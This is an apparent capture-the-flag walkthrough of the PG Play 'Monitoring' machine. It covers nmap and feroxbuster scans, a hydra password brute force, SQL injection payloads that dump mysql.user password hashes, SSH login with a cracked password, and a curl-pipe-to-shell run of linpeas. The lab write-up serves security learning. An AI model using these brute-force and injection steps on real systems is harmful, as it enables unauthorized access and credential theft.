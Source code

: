 # Monitoring --- PG Play
## [_Manual Exploitation_]
### Enumeration
First I assigned a value to `targ3t` variable in bash and passed it the IP address of the machine to make it easier to operate:
```
targ3t=192.168.247.148
```
Then I did an aggressive scan on the target using `nmap`:
```
nmap -A $targ3t -oN nmap.scan -vv
```
It seems we have only three open ports: `21`, `22` and `80`. Looks like anonymous login on FTP port 21 is allowed. Let's get in:
```
ftp $targ3t 21
```
Upon typing `ls` in this ftp console, we see there is a file named `pub` but we don't have permissions to "write" it, meaning in ftp terms, we cannot download it as an only measure to find out what's inside it. Moving on. SSH on port 22 doesn't seem vulnerable and `Apache/2.4.6` doesn't seem to be exploitable as per public exploit databases. So this leaves http:
```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o ferox.scan
```
`feroxbuster` has found a ton of routes for us to explore, most of them files and directory listings, but one page that stands out is `/monitoring` which appears to have a login form. Another page that caught my attention is `/news`, which seems like I shouldn't be seeing it (yet) and mentions a name of **Otis**. We can try a casual brute force on the login form with username `otis` and password list of `rockyou.txt`:
```
hydra -l otis -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/monitoring/index.php:username=^USER^&password=^PASS^:F=Sign in"
```
We have a result of `login: otis` and `password: 123456`. Let's attempt to login at `/monitoring`. 

Once we log in we see that the dashboard allows the user to monitor certain servers by their IP address and in case of outage sends an email to the user. It so happens that ferox buster found a route named `/webmail` where we can test this user's credentials. 

It appears that we're in the user's email. Let's see if we can cause it to send us an email, by submitting `192.168.1.1` as server IP and wait for an email.

It took a minute for it to assess, that host is down and send email to Otis. The email seems to be pulling data from SQL about the host and its recent performance and render a table-like structure in the message with columns `ID`, `Host`, `Date Time`, etc. Let's try SQL injections. Press `Modify` on our latest entry of the server to be monitored and change the name to `" SHOW DATABASES;` 

Interesting. The host is still down, but the emails are no longer coming. Let's try `admin" UNION SELECT @@hostname,@@version,NULL,NULL;--+`

It appears that SQL Injection Vulnerability is confirmed. Let's draw some more information: `admin" UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.SCHEMATA;--+`

We have four databases, including one named `mysql`. Let's explore its table `user`: `admin" UNION SELECT 1, user, password, authentication_string FROM mysql.user;--+`

We get two users with their passwords in some hash format: `root` and `elliot`. Let's go to [crackstation.com](https://crackstation.com) and crack them. 

Only `elliot` user has crackable hash and the resulting password is `elliot123`. Let's try this pair on ssh:
```
ssh elliot@$targ3t
```
And we're in. Let's see what we have in the home folder:
```
ls
```
Looks like a local flag `local.txt`. Copy it, submit it and let's look for a root flag.
```
cat local.txt
```
Now let's see if we can escalate privileges. Type on elliot's SSH terminal:
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | tee -a linpeas.out
```
Then let's try to locate CVEs it found:
```
cat linpeas.out | grep "CVE-"
```

